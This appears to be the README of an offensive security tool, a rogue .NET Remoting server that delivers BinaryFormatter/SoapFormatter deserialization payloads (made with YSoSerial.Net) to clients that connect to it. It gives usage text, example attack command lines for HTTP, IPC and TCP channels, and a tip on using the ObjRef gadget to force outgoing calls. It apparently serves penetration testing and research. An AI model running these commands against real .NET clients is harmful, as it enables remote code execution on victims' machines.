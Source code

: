 # RogueRemotingServer

A rogue .NET Remoting server to deliver BinaryFormatter/SoapFormatter payloads to connecting clients.


## Usage

```
Usage:  RogueRemotingServer.exe [OPTIONS] URL PATH

A rogue .NET Remoting server to deliver BinaryFormatter/SoapFormatter payloads to connecting clients.

Positional arguments:
  URL       remoting URL
  PATH      path to payload file

Options:
  -f, --format=VALUE         message format (Default, Binary, Soap)
  -p, --property=VALUE1=VALUE2
                             channel properties (see http://msdn.microsof-
                               t.com/kw7c6kwc)
      --wrapSoapPayload      wrap SOAP payload in MethodResponse message
  -v, --verbose
  -h, -?, --help

Examples:
  RogueRemotingServer.exe --wrapSoapPayload http://0.0.0.0:12345/Foo path\to\raw\payload.soap
  RogueRemotingServer.exe ipc://NamedPipeName/Bar path\to\raw\payload.bin
  RogueRemotingServer.exe -p=secure=true tcp://0.0.0.0:12345/Baz path\to\raw\payload.bin

.NET Remoting clients generally expect Soap for HTTP and Binary for IPC and TCP.
```

Intended to deliver raw `BinaryFormatter`/`SoapFormatter` generated by [YSoSerial.Net](https://github.com/pwntester/ysoserial.net). Use `--wrapSoapPayload` for `SoapFormatter` payloads.

You can use the *ObjRef* gadget to cause an outgoing .NET Remoting method call to a specified URL on arbitrary `BinaryFormatter`/`SoapFormatter` deserialization.


## References

* [Code White blog post *.NET Remoting Revisited*](https://codewhitesec.blogspot.com/2022/01/dotnet-remoting-revisited)

